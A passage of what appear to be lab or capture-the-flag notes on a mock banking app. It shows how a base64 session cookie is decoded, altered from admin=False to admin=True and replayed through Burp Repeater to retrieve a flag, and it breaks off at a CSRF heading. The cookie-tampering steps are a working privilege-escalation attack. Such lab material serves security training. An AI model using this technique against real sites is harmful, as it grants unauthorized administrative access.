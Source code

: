 ```http
Vary: Origin
Access-Control-Allow-Credentials: true
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:03:24 GMT

{"login": "success"}
```

`echo -n 'bG9nZ2VkaW49VHJ1ZTthZG1pbj1GYWxzZQ==' | base64 -d`:
```
loggedin=True;admin=False
```

`echo -n 'loggedin=True;admin=True' | base64`:
```
bG9nZ2VkaW49VHJ1ZTthZG1pbj1UcnVl
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /login📌 HTTP/1.1
Host: 192.228.47.3:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://secure-bank.com:5000/login
Content-Type: application/json;charset=utf-8
Content-Length: 47
Origin: http://secure-bank.com:5000
Connection: close
Cookie: sessid=bG9nZ2VkaW49VHJ1ZTthZG1pbj1UcnVl📌

{"email":"james@secbank.com","password":"password1"}📌
```
`HTTP Response`:
```http
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 44
Access-Control-Allow-Origin: http://secure-bank.com:5000
Vary: Origin
Access-Control-Allow-Credentials: true
Server: Werkzeug/1.0.1 Python/2.7.17
Date: Wed, 27 Nov 2024 15:13:33 GMT

{"flag": "251e2203c108d0a8eb1a9572199d24d1"}🚩
```

### Cross-Site Request Forgery (CSRF)

#### Lab Environment
